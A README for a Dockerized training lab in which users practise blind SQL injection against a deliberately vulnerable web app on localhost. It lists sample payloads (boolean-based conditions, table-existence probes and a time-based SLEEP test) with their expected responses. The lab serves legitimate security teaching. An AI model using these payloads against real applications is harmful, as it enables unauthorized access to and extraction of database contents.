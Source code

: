 ### Blind SQL Injection - Dockerized

This project provides a Dockerized environment to simulate and test **Blind SQL Injection** attacks in a secure and isolated setup. 
The goal is to help users understand the mechanics of this attack, how it differs from traditional SQL Injection, and how to experiment with it using practical examples.

---

### What is Blind SQL Injection?

#### Difference Between SQL Injection and Blind SQL Injection

**SQL Injection** allows attackers to directly view the results of their malicious queries, such as database errors or data displayed on the webpage. It is fast and straightforward since the output is immediately visible.

**Blind SQL Injection**, however, does not show direct results. Instead, attackers infer information by observing the application’s behavior (e.g., response times or changes in output). It is slower and more complex but can still extract sensitive data with persistence.

---

### Prerequisites

To run the Dockerized application, ensure the following are installed on your system:

- [Docker](https://www.docker.com/) (required to load and run the image)  
- [Git](https://git-scm.com/) (optional, for cloning the repository)  
- System with at least **2GB of free space** (the image size is ~801 MB).  

---

### Installation and Usage

Follow these steps to set up and run the application:

#### 1. Clone the Repository

If you haven't already, clone the repository from GitHub:
```bash
git clone https://github.com/ALAOUIa/Blind_SQL_Injection-App.git
```

```bash
cd Abdelaziz_Blind-SQL-Injection-Dockerized
```

#### 2. Load the Docker Image

Load the prebuilt Docker image from the `.tar` file:
```bash
docker load -i Abdelaziz_Blind-SQL-Injection-Dockerized.tar
```

#### 3. Run the Docker Container

Start the container with the following command:
```bash
docker run -p 8080:80 abdelaziz/dvwa-custom
```

#### 4. Access the Application

Open your browser and navigate to:
```
http://localhost:8080
```

#### 5. Test SQL Injection Attacks

Use the examples provided in the [Examples](#examples-of-blind-sql-injection-attacks) section to test Blind SQL Injection on the vulnerable endpoints.

---

### Examples of Blind SQL Injection Attacks

Here are some sample payloads to test on the vulnerable application:

##### 1. Bypass Authentication Using Always-True Condition

### Query:
```
1' OR '1'='1' -- 
```

##### Explanation:
This query leverages an always-true condition (`'1'='1'`) to bypass checks and fetch any available record in the database.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 2. Validating the Query with Always-True Condition

##### Query:
```
1' AND '1'='1' -- 
```

##### Explanation:
This query tests whether a condition that is always true (`'1'='1'`) correctly processes and confirms the result.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 3. Testing for Always-False Condition

##### Query:
```
1' AND '1'='2' -- 
```

##### Explanation:
This query uses an always-false condition (`'1'='2'`) to validate that no result is returned when the condition fails.

##### Expected Result:
```
User ID is MISSING from the database.
```

---

##### 4. Fetching All Records Without Conditions

##### Query:
```
1' OR 1=1 -- 
```

##### Explanation:
This query bypasses any filter by using the logical condition `1=1`, which is always true.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 5. Testing the Presence of a Table (Example: `users`)

##### Query:
```
1' AND EXISTS(SELECT 1 FROM users) -- 
```

##### Explanation:
This query checks whether a table named `users` exists in the database by using the SQL `EXISTS` function.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 6. Testing for Non-Existing Table or Condition

##### Query:
```
1' AND EXISTS(SELECT 1 FROM non_existing_table) -- 
```

##### Explanation:
This query attempts to check for a non-existing table (`non_existing_table`) and should fail, demonstrating the absence of the table.

##### Expected Result:
```
User ID is MISSING from the database.
```

---

##### 7. Delay-Based Blind SQL Injection

##### Query (If Supported):
```
1' AND IF(1=1, SLEEP(3), 0) -- 
```

##### Explanation:
This query introduces a delay (`SLEEP(3)`) when the condition (`1=1`) is true, making it useful for blind SQL injection.

##### Expected Behavior:
- The response is delayed by 3 seconds if the condition is true.
- No delay occurs if the condition is false.


---


### Disclaimer

This project is intended **solely for educational purposes**. Do not attempt these attacks on live systems or without explicit authorization. Misuse of this knowledge is unethical and may be illegal.
